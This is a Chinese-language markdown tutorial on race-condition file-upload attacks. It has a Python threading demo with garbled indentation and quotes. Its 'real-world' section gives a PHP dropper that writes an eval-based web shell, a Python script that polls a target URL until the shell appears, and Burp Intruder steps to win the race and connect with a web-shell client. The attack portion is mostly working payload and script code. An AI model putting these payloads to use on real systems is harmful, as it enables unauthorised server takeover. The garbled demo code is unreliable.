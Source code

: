 ```yaml
---
title: "条件竞争"
id: zhfly3599
---
```


# 条件竞争

> 简单的说就是并行服务器并发执行了多个线程导致了意想不到的结果。同样的，WEB应用程序因为要为很多用户服务，势必要采用多线程，但是，如果种种原因导致线程间的同步机制没处理好，那么也就会导致非预期和条件竞争的漏洞。在Web安全中，大致就是检测文件后缀，不符合条件，就删除。这种方式。所以我们使用多线程并发去访问该文件。总会碰到在删除文件这个时间段之前访问到PHP文件。一旦成功访问，就说明写了一个Shell。 攻击流程逻辑大概是这样。上传shell-不断访问shell.php shell生成马.php--删除shellp.php

## 举例

> up.py

```
#-*-coding:utf-8-*-
import threading
up = 0

def Run(threads_name):

global up

read_value = up

print “up 值为-%s 或 %d” % (str(threads_name), read_value)

up = read_value + 1

def main():

threads = []

for j in range(10):

t = threading.Thread(target=Run,args=(j,))

threads.append(t)

t.start()

for i in range(len(threads)):

threads<i>.join()

print(“结束值为 %d” % (up,)) `if **name** == ‘**main**’:

main()` 
```

![image](../img/9a893e2f1d352782e69acf014368b4a0.png)

## 实战中的利用

> 该系统拿到了后台地址跟管理员。后台的系统设置这里自带文件上传。但是不论是改后缀还是改格式，都会失败。

![image](../img/ab06a8db5fd23f58350a5334ef8d08fc.png)

**绕过** 1.生成shell.php和bp.py

![image](../img/de6a992274ee7beb12e923baeaf035de.png)

```
<?PHP echo md5(1);fputs(fopen('shell.php','w'),'<?php @eval($_POST[qwer123])?>');?> 
```

> bp.py

```
# coding:utf-8
import requests
def main():
    i=0
    while 1:
        try:
            print(i,end='\r')
            a = requests.get("http://www.0-sec.org/upload/shell.php")
            if "551207d090782423b5dce5b29c92c68d" in a.text:
                print("OK")
                break
        except Exception as e:
            pass
        i+=1
if __name__ == '__main__':
    main() 
```

打开burp.上传马。截断。发送到Intruder模块。这时候Positions里不用选择任何参数。到Payloads内。

![image](../img/43120d3506ec8e1926b4ec652baec413.png)

Payloads选择为null，生成空字符。

![image](../img/1bcaa6bcd97364b4aaefa489d5f4048f.png)

这时候运行bp.py，同时burpsuite开启astart attack

![image](../img/d7f5b668ff88721305545b424e0dfd22.png)

偶尔会需要再提交一次。这时候请多试几次。直到bp.py显示OK为止。

![image](../img/7576bb5980d62a4a6b3476eae9b6ca2a.png)

这时候已经成功了。用蚁剑菜刀就可以直接连接一句话了。

![image](../img/86db8fc37d89befcb7b1b8cbe6538c85.png)